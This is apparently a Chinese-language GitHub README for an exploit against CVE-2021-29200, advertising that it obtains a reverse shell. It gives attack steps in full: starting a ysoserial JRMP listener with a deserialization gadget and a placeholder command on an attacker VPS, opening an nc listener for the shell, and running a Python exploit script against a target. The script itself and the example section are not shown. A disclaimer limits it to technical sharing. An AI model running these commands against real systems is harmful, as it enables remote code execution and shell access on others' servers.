

# CVE-2021-29200

**CVE-2021-29200 EXP 可成功反弹Shell**

> **本文以及工具仅限技术分享，严禁用于非法用途，否则产生的一切后果自行承担。**

### 触发命令执行EXP


#### 1. VPS启动`RMI`监听 `9999` 端口

```shell
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 9999 CommonsBeanutils1 '[要执行的命令]'
```

#### 2. VPS启动`nc`监听 `8443` 端口

```shell
nc -lvp 8443
```

#### 3. 执行python脚本

```shell
python3 cve-2021-29200_exp.py <target> <vps_ip> <vps_port>
```


#### 示例


